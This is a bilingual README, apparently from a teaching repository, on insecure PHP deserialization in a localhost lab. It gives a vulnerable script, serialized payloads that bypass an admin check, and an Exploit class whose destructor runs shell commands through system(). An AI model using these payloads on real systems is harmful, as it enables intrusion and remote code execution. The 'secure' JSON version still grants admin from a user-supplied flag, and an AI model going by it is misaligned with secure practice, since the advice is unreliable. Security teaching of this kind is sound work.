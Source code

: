 # Ejemplo de la vulnerabilidad deserelización insegura.

Este tipo de vulnerabilidad consiste en injectar objetos serializados en la URL de un sitio web con la finalidad de inyectar codigo en esa web.

### Codigo vulnerable

http://localhost/Examples-of-Web-Vulnerabilities/UNSAFE_DESERIALIZATION/deserialize_original.php

```
<?php
/*Define the User Class */

class User {
    public $username;
    public $isAdmin = false;
}
/* Show a Text if the User has isAdmin in true*/

$data = unserialize($_GET['data']);
if ($data->isAdmin) {
    echo "¡Acceso de administrador concedido!";
}
?>
```

Este script define un objeto con un parametro isAdmin que en caso de ser verdadero deja inicar sesión como administrador.

#### Obtener exploit

http://localhost/Examples-of-Web-Vulnerabilities/UNSAFE_DESERIALIZATION/eje_desi.php

```
<?php
class User {
    public $username = "hacker";
    public $isAdmin = true;
}
echo urlencode(serialize(new User()));
?>
```
This website generates a serialize object "User" that you can use to login into the website.

Esta web genera un objeto User deserializado en el que el valor isAdmin es verdadero.

![alt text](./images/Unsafe%20User.png)

Si pones esa cadena en la url como el parametro data podras acceder como administrador al sitio web.


http://localhost/Examples-of-Web-Vulnerabilities/UNSAFE_DESERIALIZATION/deserialize_original.php?data=O%3A4%3A"User"%3A2%3A%7Bs%3A8%3A"username"%3Bs%3A6%3A"hacker"%3Bs%3A7%3A"isAdmin"%3Bb%3A1%3B%7D


![alt text](./images/Login%20with%20object.png)

To execute code in the server you can Inject an Exploit class, this class executes the command in the cmd param in the server where the object is destroyed.

Si quieres poder ejecutar comandos en el servidor podrias tratar de injectar una clase exploit que ejecute un comando cuando un objeto de esa clase es destruido.

http://localhost/Examples-of-Web-Vulnerabilities/UNSAFE_DESERIALIZATION/deserialize.php

```
/*Define the Exploit Class */
class Exploit {
    public $cmd;
    
    /* Execute the command in the cmd param when the object is destoyed */
    public function __destruct() {
        system($this-> cmd);
    }
}
?>
```

La siguiente web genera un exploit que ejecuta el comando `pwd`

http://localhost/Examples-of-Web-Vulnerabilities/UNSAFE_DESERIALIZATION/exploit.php

![alt text](./images/Create%20Exploit%20Object.png)

#### Execute Exploit

Si pones ese objeto serializado en la URL veras el resultado del comando pwd

```
http://localhost/Examples-of-Web-Vulnerabilities/UNSAFE_DESERIALIZATION/deserialize.php?data=O%3A7%3A"Exploit"%3A1%3A%7Bs%3A3%3A"cmd"%3Bs%3A3%3A"pwd"%3B%7D/
```

### Secure Code

Puedes securizar este codigo haciendo que las lecturas de datos se hagan mediante un fichero JSON evitando que se injecten objetos en el sitio web.

```
<?php
/*Define the User Class */
class User {
    public $username;
    public $isAdmin = false;
}
/* Get the data content or create a empty object if data not exists */
$json = $_GET['data'] ?? "{}";

/*Decode the JSON*/
$data = json_decode($json, true);

/* If the JSON decoded isn't a array finish the execution*/
if (!is_array($data)) {
    die("Formato de datos no valido");
}

/* Si existe el parametro isAdmin y este es verdadero concede el inicio de sesión */
if (isset ($data ["isAdmin"]) && $data["isAdmin"] === true) {
    echo "Acceso de administrador concedido";
} else {
    echo "Acceso normal";
}
?>
```

http://localhost/Examples-of-Web-Vulnerabilities/UNSAFE_DESERIALIZATION/deserialize_json.php?data={"username":"hacker","isAdmin":true}

![alt text](./images/JSON%20Login.png)

Si quieres securizar aún mas el sitio web puedes limitar los parametros que puede tener el JSON para evitar la inyección de codigo.

http://localhost/Examples-of-Web-Vulnerabilities/UNSAFE_DESERIALIZATION/deserialize_full.php?data={"isAdmin":true,%20"bypass":"0"}

![alt text](./images/Invalid%20JSON%20Example.png)